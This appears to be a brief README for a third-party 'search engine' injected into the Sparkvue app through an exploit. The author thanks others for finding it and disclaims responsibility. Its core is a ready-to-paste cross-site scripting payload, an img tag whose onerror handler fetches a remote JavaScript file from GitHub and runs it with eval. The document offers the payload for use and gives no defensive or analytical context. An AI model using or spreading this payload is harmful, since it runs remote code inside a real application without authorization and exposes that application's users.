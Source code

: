 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!


Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.

'<img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/raw/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'>'

